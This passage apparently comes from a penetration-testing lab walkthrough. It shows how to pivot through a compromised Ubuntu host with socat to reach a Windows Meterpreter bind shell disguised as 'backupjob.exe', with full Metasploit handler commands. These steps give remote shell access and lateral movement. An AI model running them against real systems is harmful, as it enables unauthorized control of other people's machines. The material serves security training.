 **Key Configuration:**
- **Payload:** `windows/x64/meterpreter/bind_tcp`
- **LPORT:** 8443 (port where Windows will listen)
- **No LHOST needed** - bind shell listens locally

### **Step 2: Configure Socat Bind Shell Listener**

```bash
# On Ubuntu pivot host
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443

# Configuration breakdown:
# TCP4-LISTEN:8080    - Listen on pivot port 8080
# fork                - Handle multiple connections  
# TCP4:172.16.5.19:8443 - Forward to Windows bind shell
```

**Listener Configuration:**
- **Pivot Listen Port:** 8080 (attack host connects here)
- **Target:** 172.16.5.19:8443 (Windows bind shell)
- **Direction:** Pivot → Windows (forward mode)

### **Step 3: Execute Bind Shell on Windows**

```bash
# Transfer and execute payload on Windows target
C:\> backupjob.exe

# Payload starts listening on port 8443
# Waiting for incoming connections
```

### **Step 4: Configure Metasploit Bind Handler**

```bash
# Configure bind handler to connect to socat
msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64

msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080

msf6 exploit(multi/handler) > run

# Expected Output:
[*] Started bind TCP handler against 10.129.202.64:8080
```

**Handler Configuration:**
- **RHOST:** Pivot host IP (10.129.202.64)  
- **LPORT:** Socat listener port (8080)
- **Payload:** Must match bind shell payload
